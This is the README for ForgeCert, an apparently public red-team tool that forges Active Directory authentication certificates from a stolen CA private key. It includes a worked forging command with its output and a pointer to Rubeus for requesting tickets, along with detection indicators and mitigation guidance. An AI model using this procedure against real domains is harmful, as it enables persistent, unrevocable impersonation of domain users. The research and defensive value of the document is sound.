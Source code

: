 # ForgeCert

ForgeCert uses the [BouncyCastle C# API](https://www.bouncycastle.org/csharp/index.html) and a stolen Certificate Authority (CA) certificate + private key to forge certificates for arbitrary users capable of authentication to Active Directory.

This attack is codified as `DPERSIST1` in our ["Certified Pre-Owned" whitepaper]( https://posts.specterops.io/certified-pre-owned-d95910965cd2). This code base was released ~45 days after the whitepaper was published.

[@tifkin_](https://twitter.com/tifkin_) is the primary author of ForgeCert.

[@tifkin_](https://twitter.com/tifkin_) and [@harmj0y](https://twitter.com/harmj0y) are the primary authors of the associated Active Directory Certificate Service research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).


## Background

As described in the `Background` and `Forging Certificates with Stolen CA Certificates - DPERSIST1` sections of our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf), the private key for a Certificate Authority's CA certificate is protected on the CA server either via DPAPI or hardware (HSM/TPM). Additionally, the certificate (sans private key) is published to the **NTAuthCertificates** forest object, which defines CA certificates that enable authentication to AD. Put together, a CA whose certificate is present in **NTAuthCertificates** uses its private key to sign certificate signing requests (CSRs) from requesting clients. This graphic summarizes the process:

![](certificate_enrollment.png)

The security of the CA's private key is paramount. As mentioned, if the private key is not protected by a hardware solution like a TPM or a HSM, the key will be encrypted with the Data Protection API (DPAPI) and stored on disk on the CA server. If an attacker is able to compromise a CA server, they can extract the private key for any CA certificate not protected by hardware by using [@gentilkiwi](https://twitter.com/gentilkiwi/)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) or GhostPack's [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) project. `THEFT3` in the whitepaper describes this process for machine certificates.

Because the only key material used to sign issued certificates is the CA's private key, if an attacker steals such a key (for a certificate in **NTAuthCertificates**) they can forge certificates capable of domain authentication. These forged certificates can be for any principal in the domain (though the account needs to be "active" for authentication to be possible, so accounts like krbtgt will not work) and the certificates will be valid for as long as the CA certificate is valid (usually 5 years by default but can be set to be longer).

Also, as these certificates are not a product of the normal issuance process, the CA is not aware that they were created. Thus, the certificates [cannot be revoked](https://twitter.com/gentilkiwi/status/1154685386968506368).

**Note:** the private key for ANY CA certificate in **NTAuthCertificates** (root or subordinate CA) can be used to forge certificates capable of authentication in the forest. If the certificate/key is from a subordinate CA, a legitimate CRL for verification of the certificate chain must be supplied.

ForgeCert uses the [BouncyCastle's X509V3CertificateGenerator](https://people.eecs.berkeley.edu/~jonah/bc/org/bouncycastle/x509/X509V3CertificateGenerator.html) to perform the forgeries.


### Command Line Usage

```
C:\Temp>ForgeCert.exe
ForgeCert 1.0.0.0
Copyright c  2021

ERROR(S):
  Required option 'CaCertPath' is missing.
  Required option 'SubjectAltName' is missing.
  Required option 'NewCertPath' is missing.
  Required option 'NewCertPassword' is missing.

  --CaCertPath         Required. CA private key as a .pfx or .p12 file

  --CaCertPassword     Password to the CA private key file

  --Subject            (Default: CN=User) Subject name in the certificate

  --SubjectAltName     Required. UPN of the user to authenticate as

  --NewCertPath        Required. Path where to save the new .pfx certificate

  --NewCertPassword    Required. Password to the .pfx file

  --CRL                ldap path to a CRL for the forged certificate

  --help               Display this help screen.

  --version            Display version information.

```

## Usage

**Note**: for a complete walkthrough of stealing a CA private key and forging auth certs, see `DPERSIST1` in the [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf).

Context:

* The stolen CA's certificate is `ca.pfx`, encrypted with a password of `Password123!`
* The subject is arbitrary since we're specifying a subject alternative name for the certificate.
* The subject alternative name (i.e., the user we're forging a certificate for), is `localadmin@theshire.local`.
* The forged certificate will be saved as `localadmin.pfx`, encrypted with the password `NewPassword123!`

```
C:\Tools\ForgeCert>ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Password123!" --Subject "CN=User" --SubjectAltName "localadmin@theshire.local" --NewCertPath localadmin.pfx --NewCertPassword "NewPassword123!"
CA Certificate Information:
  Subject:        CN=theshire-DC-CA, DC=theshire, DC=local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     1/4/2021 10:48:02 AM
  End Date:       1/4/2026 10:58:02 AM
  Thumbprint:     187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
  Serial:         14BFC25F2B6EEDA94404D5A5B0F33E21

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: localadmin@theshire.local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     7/26/2021 3:38:45 PM
  End Date:       7/26/2022 3:38:45 PM
  Thumbprint:     C5789A24E91A40819EFF7CFD77150595F8B9878D
  Serial:         3627A48F90F6869C3215FF05BC3B2E42

Done. Saved forged certificate to localadmin.pfx with the password 'NewPassword123!'
```

This forgery can be done on an attacker-controlled system, and the resulting certificate can be used with [Rubeus](https://github.com/GhostPack/Rubeus) to request a TGT (and/or retrieve the user's NTLM ;)


## Defensive Considerations

The [TypeRefHash](https://www.gdatasoftware.com/blog/2020/06/36164-introducing-the-typerefhash-trh) of the current ForgeCert codebase is b26b451ff2c947ae5904f962e56facbb45269995fbb813070386472f307cfcf0.

The TypeLib GUID of ForgeCert is **bd346689-8ee6-40b3-858b-4ed94f08d40a**. This is reflected in the Yara rules currently in this repo.

See `PREVENT1`, `DETECT3`, and `DETECT5` in our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) for prevention and detection guidance.

[Fabian Bader](https://twitter.com/fabian_bader) published a [great post on how to mitigate many uses of "Golden Certificates"](https://cloudbrothers.info/en/golden-certificate-ocsp/) through OSCP tweaks. Note thought that in the **Final Thoughts** section he mentions `This method is not bulletproof at all. Since the attacker is in charge of the certificate creation process, she could just change the serial number to a valid one.` This was implemented in [his PR](https://github.com/GhostPack/ForgeCert/commit/a202e03d7cee48413514c8659ad042a7f546d94b), though remember that by default the serial number will be randomized, meaning the OSCP prevention should work in many cases and is worth implementing in our opinion.

We believe there may opportunities to build Yara/other detection rules for types of forged certificates this project produces - if any defensive researchers find a good way to signature these files, please let us know and we will update the Yara rules/defensive guidance here.


## Reflections

There is a clear parallel between "Golden Tickets" (forged TGTs) and these "Golden Certificates" (forced AD CS certs). Both the krbtgt hash and CA private key are cryptographic material critical to the security of an Active Directory environment, and both can be used to forge authenticators for arbitrary users. However, while the krbtgt hash can be retrieved remotely over DCSync, a CA private key must (at least as far as we know) be recovered through code execution on the CA machine itself. While a krbtgt hash can be rotated _relatively_ easily, rotating a CA private key is significantly more difficult.

On the subject of public disclosure, we self-embargoed the release of our offensive tooling (ForgeCert as well as [Certify](https://github.com/GhostPack/Certify)) for ~45 days after we published our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) in order to give organizations a chance to get a grip on the issues surrounding Active Directory Certificate Services. However, we have found that organizations and vendors have historically often not fixed issues or built detections for "theoretical" attacks until someone proves something is possible with a proof of concept.

This is reflected in some people's reaction to the research of `this IS StUPId, oF COurse YoU Can FORge CERts WITH ThE ca PriVAtE KeY.` To which we state, yes, many things are possible, but `PoC||GTFO`
